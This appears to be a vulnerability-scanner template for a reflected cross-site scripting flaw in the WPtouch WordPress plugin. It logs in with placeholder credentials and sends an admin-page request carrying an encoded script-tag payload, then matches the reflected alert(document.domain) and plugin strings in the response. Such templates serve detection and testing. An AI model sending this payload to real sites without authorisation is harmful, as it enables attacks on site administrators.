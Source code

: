 
# WPtouch \< 4.3.44 - Cross Site Scripting

## Description

- The plugin does not escape some URLs before outputting them back in attributes, leading to Reflected Cross-Site Scripting.

- severity - medium
- tags - wp-plugin,wp,wordpress,xss,authenticated,wptouch,wpscan

## Requests

### Step - 1

```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```

### Step - 2

```
GET /wp-admin/admin.php?page=wptouch-admin-license&a%22%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. ">\<script>alert(document.domain)\</script>

**Type - word**

- part - body
- words
  1. WPtouchCustom
  2. WPtouchAjax
  3. toplevel_page_wptouch-admin
- condition - or

**Type - word**

- part - header
- words
  1. text/html
